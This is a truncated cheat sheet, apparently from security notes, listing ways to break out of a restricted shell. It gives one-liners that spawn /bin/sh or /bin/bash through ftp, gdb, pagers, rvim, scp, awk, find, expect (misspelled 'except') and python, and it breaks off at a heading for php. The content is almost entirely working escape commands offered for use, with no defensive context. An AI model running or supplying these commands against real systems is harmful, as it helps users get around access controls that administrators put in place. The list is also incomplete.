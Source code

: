 If cp is allowed, you can copy /bin/sh or /bin/bash to your own directory.

From ftp, gdb, more, man, or less:

xxx > !/bin/sh

or

xxx > !/bin/bash

From rvim:

:python import os; os.system("/bin/bash")

From scp:

# scp -S /path/yourscript x y:

From awk:

# awk 'BEGIN {system("/bin/sh")}'

or

# awk 'BEGIN {system("/bin/bash")}'

From find:

# find / -name test -exec /bin/sh \;

or

# find / -name test -exec /bin/bash \;

Programming Languages Techniques:

From except:

# except spawn sh

From python:

# python -c 'import os;os.system("/bin/sh")'

or

# python3 -c 'import os;os.system("/bin/sh")'

From php:
